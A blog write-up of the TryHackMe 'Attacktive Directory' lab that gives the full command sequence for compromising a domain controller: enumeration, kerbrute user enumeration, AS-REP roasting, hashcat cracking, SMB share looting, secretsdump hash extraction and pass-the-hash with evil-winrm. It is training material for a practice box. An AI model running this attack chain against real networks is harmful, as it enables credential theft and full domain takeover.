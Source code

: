 ```yaml
---
title: "Attacktive Directory"
date: 2022-03-05 08:00:00 -0400
categories: [red-team]
tags: [red-team,thm]
image:
    path: /assets/img/posts/attacktivedirectory/thumbnail.jpg
--- 
```


<style>
  .body {
    display:block;
  }
</style>

## Attacktive Directory

In this room we will be using the following tools to compromise a Domain Controller (DC) in order to gain access to the crown jewels of the environment:

Tools Used: Nmap, Kerbrute, Impacket, Enum4Linux, Hashcat, SMBClient, and Secretsdump

TryHackMe Link: https://tryhackme.com/room/attackivedirectory

We will begin with an nmap scan to see what ports are open on the host and what services they are running.
```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ nmap -sC -Pn -sV 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image1.png" alt=""></p>

Next in our steps to enumerating our host for ports 139/445 we will use the tool enum4linux in order to get very useful information on the domain. For this room we will need to locate the domain name from the output of the tool. Part of the output of this command will give you the answer to the NetBIOS-Domain Name which is THM-AD.
```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ enum4linux -a 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image2.png" alt=""></p>

The invalid domain that is typically seen in the Active Directory (AD) domain environments is .local. 

Next we will want to enumerate for valid usernames using the tool userenum.  In order to run this tool we will need to install the tool kerbrute.  To do this we will do the following steps which will require that pip3 and git be installed:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ git clone https://github.com/tarlogicsecurity/kerbrute 
Cloning into 'kerbrute' ... 
$ cd kerbrute 
$ pip3 install -r requirements
```

Using the command python3 kerbrute -h we are able to get all the options that this tool has to offer:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 kerbrute.py
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image6.png" alt=""></p>


But first we will need the users and password lists that were provided.  To get these we will use the wget command in order to download both the Users List and the Password List

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image7.png" alt=""></p>

Next, the command that will be used to enumerate valid username is userenum, however the tool does user enumeration by default using the following command:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image8.png" alt=""></p>

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 kerbrute.py -dc-ip 10.10.7.82 -domain spookysec.local -users userlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image9.png" alt=""></p>


After running the command you should notice two accounts that are the answer to the next two questions for notable accounts; svc-admin and backup.

The account svc-admin returned “[NOT PREAUTH]” which means we could potentially query a ticket with this account with no password.

In order to request a ticket we will use the impacket tool GetNPUsers.py.  This python 3 file will be located in /usr/share/doc/python3-impacket/examples by default.  The syntax for the command to request the ticket from the AD server is:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image10.png" alt=""></p>


You will want to copy and paste the hash into a file for further reference. When navigating to the Hashcat Examples Wiki we see the the Kerberos hash we captured for svc-admin is Kerberos 5 AS-REP etype 23.

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image11.png" alt=""></p>

As shown above in the screenshot from the wiki, the mode that will be used in hashcat is 18200. To crack the password we will use the following command with hashcat:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ hashcat svc-admin-hash.txt -a 0 -m 18200 -O passwordlist.txt –force
hashcat (v6.2.5) starting
```

From the output of the hashcat tool we have discovered the the password for the svc-admin account is management2005

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image13.png" alt=""></p>

Next we want to enumerate SMB since we noticed that port 139 was open on our original nmap scan of the server.   This can be done by using the tool smbclient and using the option -L to list the shares using the credentials we just cracked.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ smbclient -L \\\\10.10.121.181 -U 'spookysec.local/svc-admin'
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image14.png" alt=""></p>

There are a total of 6 remote shares that the server lists.  We will need to connect to each share to see which one(s) we have access to.  For this machine we have access to the backup share where the file backup_credentials.txt is stored.  We will use the get command to pull this file off the smb share.


```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ smbclient \\\\10.10.121.181\\backup -U 'spookysec.local/svc-admin'
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image15.png" alt=""></p>

When we cat the file we get the contents of the backup_credentials.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image16.png" alt=""></p>

To decode this we will use the command line tool to convert from base64 using the following command

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image17.png" alt=""></p>

The backup account has AD permission that allows all AD changes to be synced with this user account.  We can use the tool secresdump.py to retrieve all password hashes in the AD forest environment. 

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 secretsdump.py -just-dc-ntlm spookysec.local/backup@10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image18.png" alt=""></p>

We were able to dump the credentials of the domain users using the DRSUAPI method.  The NTLM hash of the Administrator account is 0e0363213e37b94221497260b0bcb4fc. In order to use these credentials on the system we can attempt to use Pass the Hash.  This means that instead of authentication with a password we can authenticate with the hash of the password.  We will do this by using the tool Evil-WinRM where the option -H allows us to insert the hash of the administrator account.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ evil-winrm -i 10.10.121.181 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image19.png" alt=""></p>

At this point we fully own this box and have administrator on the DC.  To get the flags for svc-admin, backup, and Administrator use commands within the evil-winrm shell to find them.

The Administrator account will have the file root.txt. 

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image20.png" alt=""></p>

The backup account will have the file PrivEsc.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image21.png" alt=""></p>

The svc-admin account will have the file user.txt.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image22.png" alt=""></p>

If you have made it this far successfully then congrats you have successfully compromised a Domain Controller (DC) and have the crown jewels of the Windows enterprise environment.